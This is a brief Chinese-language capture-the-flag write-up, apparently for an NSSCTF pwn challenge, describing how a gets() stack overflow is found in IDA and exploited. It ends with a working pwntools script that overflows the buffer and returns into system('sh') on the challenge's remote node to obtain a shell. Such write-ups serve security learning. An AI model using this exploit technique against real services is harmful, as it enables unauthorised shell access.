




1. 给一个文件，用ida打开，查看main  
  

2. 查看init()和vulnerable(),发现gets，可以栈溢出  

  

3. 左侧发现shell函数，调用了system函数
  
但是不能用，不过最后的sh可以用，看字符串位置  
  
"sh"位置就是0x08048670  

4. 编写脚本  

```python
from pwn import *

re=remote('node5.anna.nssctf.cn',24973)

s_add=0x08048529

sh_add=0x08048670

payload = cyclic(0x18+4) + p32(s_add)+p32(sh_add)

re.sendline(payload)

re.interactive()
```
